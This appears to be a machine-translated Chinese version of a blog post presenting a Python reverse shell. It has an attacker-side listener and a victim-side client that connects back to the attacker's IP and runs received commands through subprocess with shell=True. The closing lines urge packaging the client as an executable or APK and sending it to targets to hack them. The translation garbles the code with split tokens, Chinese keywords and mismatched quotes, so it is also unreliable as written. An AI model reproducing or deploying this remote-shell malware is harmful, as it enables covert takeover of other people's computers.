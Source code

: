 # 用于攻击性安全攻击的 Python 脚本

> 原文：<https://infosecwriteups.com/python-script-for-offensive-security-attack-627b06b00463?source=collection_archive---------2----------------------->

朋友们好，在这里我将讨论一个用于攻击 windows 7 及之前版本的 python 脚本，其安全性与此类似。

首先，您必须为您的设备创建一个脚本，并将您的 IP 地址作为主机设备。同样，您将导入套接字和子流程。除此之外，您还将创建一个名为 connect 的函数或您选择的任何函数。并为您的设备创建一个子进程 shell 引用。

导入套接字
def connect():
s = socket . socket()
s . bind((“IP 地址”，端口))#可能的端口是 8080，因为它在 HTML 上工作。
s.listen(1)
conn，addr = s . accept()
print("+we get a connectin from "，addr)
while True:
command = input(" Shell>"
if ' exit ' in command:
conn . send(' exit ')。encode())
conn . close()
break
else:
conn . send(command . encode())
print(conn . recv(1024)。decode()
def main():
connect()
main()

现在，既然我们都有了完美的连接功能，我们将不得不编写一个脚本发送到您的客户端设备，或者我会说是您试图捕获实例的设备。同样，你将把代码对你的客户端连接到你的设备。

" " "
创建于 2021 年 4 月 22 日星期四 12:03:04

[@作者](http://twitter.com/author):沙希
" " "

导入套接字
导入子进程
def connect():
s = socket . socket()
s . connect(('主机 IP '，端口))
while True:
command = s . recv(1024)
if ' exit ' in command . decode():
s . close()
break
else:
CMD =子进程。Popen(command.decode()，shell=True，stdout=subprocess。管道，stderr =子进程。管道，stdin =子进程。管道)
s . send(cmd . stdout . read())
s . send(cmd . stderr . read())
def main():
connect()

main()

![](img/4096d441b0a9fb2d58dc8b9fb1181d74.png)

你可以创建这个脚本到可执行文件或任何文件选择，如 apk。然后把这个发送给你的客户来获取他们的外壳。或者更简单地说，黑掉它们。